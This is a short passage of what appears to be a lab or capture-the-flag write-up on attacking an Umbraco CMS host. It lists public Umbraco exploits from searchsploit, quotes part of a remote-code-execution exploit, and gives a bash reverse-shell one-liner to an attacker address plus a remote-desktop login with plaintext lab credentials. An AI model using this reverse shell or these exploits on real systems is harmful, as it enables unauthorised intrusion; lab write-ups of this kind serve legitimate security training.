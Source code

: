 searchsploit umbraco cms
--------------------------------------------- ---------------------------------
 Exploit Title                               |  Path
--------------------------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Meta | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote  | aspx/webapps/46153.py
Umbraco CMS 7.12.4 - Remote Code Execution ( | aspx/webapps/49488.py
Umbraco CMS 8.9.1 - Directory Traversal      | aspx/webapps/50241.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross- | php/webapps/44988.txt
--------------------------------------------- ---------------------------------
Shellcodes: No Results

Trying the 7.12.4 RCE

https://www.exploit-db.com/exploits/49488

Umbraco CMS 7.12.4 - Remote Code Execution aspx/webapps/49488.py

from the exploit

```py
# Go to vulnerable web page
url_xslt = host + "/umbraco/developer/Xslt/xsltVisualize.aspx"
r3 = s.get(url_xslt)
```

http://10.10.206.242/umbraco/developer/Xslt/xsltVisualize.aspx

```
sh -i >& /dev/tcp/10.6.24.127/1337 0>&1
```

so turns out you were never supposed to try and exploit it...

just use the credentials for remote desktop...

```
rdesktop -u SG -p UmbracoIsTheBest! 10.10.206.242
```
